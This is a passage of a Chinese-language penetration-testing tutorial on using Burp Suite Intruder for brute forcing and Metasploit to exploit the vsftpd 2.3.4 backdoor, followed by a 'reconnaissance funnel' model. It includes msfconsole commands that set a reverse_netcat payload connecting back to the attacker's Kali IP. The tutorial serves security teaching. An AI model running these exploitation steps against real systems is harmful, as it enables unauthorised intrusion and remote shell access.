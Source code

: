     - **Intruder**: 对于需要大量重复请求的测试场景（如密码爆破、参数Fuzzing），可以将请求发送到`Intruder`模块。通过配置Payloads，`Intruder`可以自动化地对目标参数进行字典攻击或暴力破解 63。
        
    - **Scanner** (专业版功能): `Burp Scanner`可以对捕获到的流量进行自动化的被动和主动扫描，以发现常见的Web漏洞 65。
        

通过这种方式，`gobuster`发现的“点”被`Burp Suite`扩展成了可以进行深度交互和攻击的“面”。

### 6.2 使用`Metasploit Framework`验证和利用漏洞

**`Metasploit Framework`简介**

`Metasploit Framework` (MSF) 是一个由Rapid7公司维护的、全球最受欢迎的开源渗透测试框架 47。它集成了一个庞大的、持续更新的漏洞利用（Exploit）模块、攻击载荷（Payload）模块和辅助（Auxiliary）模块库，极大地简化了漏洞利用的开发和执行过程 69。

**连接侦察与利用**

`Metasploit`与我们侦察流程的衔接点，主要来自于`Nmap`的扫描结果。这展示了从服务识别到获取系统权限的直接路径：

1. **情报输入**: 在第4节中，我们使用`Nmap -sV`扫描发现，目标主机`dev.example.com`的21端口上运行着`vsftpd 2.3.4` 6。
    
2. **漏洞搜索**: 渗透测试人员会立即在`Metasploit Framework`的控制台（`msfconsole`）中使用`search`命令来查找与这个特定服务版本相关的漏洞利用模块。
    
    Bash
    
    ```
    msf6 > search vsftpd 2.3.4
    ```
    
3. **模块选择与配置**: 搜索结果可能会显示一个针对`vsftpd 2.3.4`后门漏洞的利用模块。测试人员使用`use`命令加载该模块，然后通过`show options`查看需要配置的参数（通常是目标IP地址`RHOSTS`）。
    
4. **载荷设置**: 接下来，选择一个攻击载荷。载荷是在漏洞利用成功后，在目标系统上执行的代码。一个常见的选择是反向shell（reverse shell），它会使受害主机主动连接回攻击者的机器，从而提供一个交互式的命令行访问 70。
    
    Bash
    
    ```
    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/reverse_netcat
    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set LHOST <你的Kali IP>
    ```
    
5. **执行攻击**: 所有参数配置完毕后，执行`exploit`或`run`命令。如果目标确实存在该漏洞且未打补丁，`Metasploit`将成功利用漏洞，攻击者将在自己的终端上看到一个来自目标主机的shell提示符，意味着已成功获取系统访问权限。
    

这个过程完美地展示了整个侦察工作流的最终价值：它不是为了收集信息而收集信息，而是为了找到一个可以被利用的、具体的切入点。

**侦察漏斗模型**

整个从域名分析到最终利用的过程，可以被看作一个“侦察漏斗”：

1. **漏斗顶部（最宽处）**: 我们从一个或多个根域名开始，这是我们知道的全部信息。
    
2. **第一层过滤 (`Amass`/`theHarvester`)**: 我们发现了数百个相关的子域名和主机名，攻击面被初步定义。
    
3. **第二层过滤 (`Nmap -sn`)**: 我们确认了其中一部分主机是存活的，排除了大量无效目标。
    
4. **第三层过滤 (`Nmap -sV` / `WhatWeb`)**: 我们对存活主机进行了指纹识别，将目标缩小到几个运行着特定版本服务（如`ProFTPD 1.3.5`）或特定Web应用（如`WordPress 5.8`）的主机上。
    
5. **漏斗底部（最窄处）**: 我们针对这个具体的服务版本或Web应用，在`Metasploit`或`Burp Suite`中找到了一个可行的攻击向量。
    